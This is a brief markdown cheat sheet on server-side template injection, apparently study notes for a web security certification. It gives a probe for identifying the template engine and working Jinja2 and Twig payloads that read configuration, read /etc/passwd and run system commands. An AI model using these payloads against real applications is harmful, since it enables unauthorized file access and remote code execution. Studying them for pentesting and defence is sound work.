

# SSTI

https://github.com/vladko312/SSTImap
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection



`{{7*'7'}}`. The result will enable us to deduce the template engine used by the web application. In Jinja, the result will be `7777777`, while in Twig, the result will be `49`.

## Jinja2

### Information Disclosure

```jinja2
{{ config.items() }}
```

```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

### LFI

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

### RCE

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

## Twig

### Information Disclosure

```twig
{{ _self }}
```

### LFI

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

### RCE

```twig
{{ ['id'] | filter('system') }}
```

## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | 12- Server-Side Attacks/2 - SSTI.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

[Índice de categoría](../README.md) · [Inicio](../../README.md)
